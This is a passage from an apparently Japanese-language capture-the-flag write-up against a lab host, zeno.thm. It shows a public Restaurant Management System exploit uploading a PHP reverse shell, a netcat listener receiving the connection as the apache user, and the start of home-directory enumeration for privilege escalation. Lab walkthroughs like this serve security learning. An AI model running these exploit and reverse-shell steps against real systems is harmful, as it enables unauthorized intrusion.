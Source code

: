 エクスプロイト。構文エラーが出るので少し修正が必要だった。

```sh
$ python2 ./47520.py http://zeno.thm:12340/rms/          

    _  _   _____  __  __  _____   ______            _       _ _
  _| || |_|  __ \|  \/  |/ ____| |  ____|          | |     (_) |
 |_  __  _| |__) | \  / | (___   | |__  __  ___ __ | | ___  _| |_
  _| || |_|  _  /| |\/| |\___ \  |  __| \ \/ / '_ \| |/ _ \| | __|
 |_  __  _| | \ \| |  | |____) | | |____ >  <| |_) | | (_) | | |_
   |_||_| |_|  \_\_|  |_|_____/  |______/_/\_\ .__/|_|\___/|_|\__|
                                             | |
                                             |_|



Credits : All InfoSec (Raja Ji's) Group
[+] Restaurant Management System Exploit, Uploading Shell
[+] Shell Uploaded. Please check the URL : http://zeno.thm:12340/rms/images/reverse-shell.php
```

シェル取得成功！

```sh
$ nc -lnvp 8888
listening on [any] 8888 ...
connect to [10.11.146.32] from (UNKNOWN) [10.201.32.251] 37324
sh-4.2$ id
id
uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0
```

## 権限昇格

edward に昇格する必要がある。

```sh
ls -al /home
total 0
drwxr-xr-x.  3 root root  20 Jul 26  2021 .
dr-xr-xr-x. 17 root root 224 Jun  8  2021 ..
drwxr-xr-x.  3 root root 127 Sep 21  2021 edward
sh-4.2$ cd /home/edward
cd /home/edward
sh-4.2$ ls -al
ls -al
total 20
drwxr-xr-x. 3 root root   127 Sep 21  2021 .
drwxr-xr-x. 3 root root    20 Jul 26  2021 ..
lrwxrwxrwx. 1 root root     9 Jul 26  2021 .bash_history -> /dev/null
-rw-r--r--. 1 root root    18 Apr  1  2020 .bash_logout
-rw-r--r--. 1 root root   193 Apr  1  2020 .bash_profile
-rw-r--r--. 1 root root   231 Apr  1  2020 .bashrc
drwxr-xr-x. 2 root root    29 Sep 21  2021 .ssh
-rw-------. 1 root root   699 Jul 26  2021 .viminfo
-rw-r-----. 1 root edward  38 Jul 26  2021 user.txt
```
